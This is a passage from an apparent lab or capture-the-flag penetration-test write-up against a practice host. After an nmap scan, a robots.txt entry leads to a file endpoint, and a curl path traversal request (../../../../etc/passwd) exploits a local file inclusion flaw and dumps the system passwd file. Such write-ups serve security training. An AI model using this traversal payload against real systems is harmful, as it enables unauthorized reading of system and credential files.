 ```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.14 seconds
                                                                  
```

The tester navigated to port 80, which was one of the ports found. The port was running a web server which hosted an API. The tester checked the "robots.txt" file and found the "Disallow: /file_management/?file=implant" entry. This endpoint returned the text output of a executable file. 

```
┌──(kali㉿kali)-[~]
└─$ curl  http://10.10.11.123/file_management/?file=implant --output -
ELF>�@@�7@8@)(@@�
                 %�
                   % �
                      %�
                        ��
                          ����� ��@�@DD�
                                        %�
                                          ��
                                            �pQ�tdR�td�
                                                       %�
<snip>
```

As this indicates a potential local file inclusion (LFI) vulnerability. The tester attempted to access the "passwd" file, on the target. This worked and the tester received the desired file.

```
└─$ curl  http://10.10.11.123/file_management/?file=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
                                                      
```
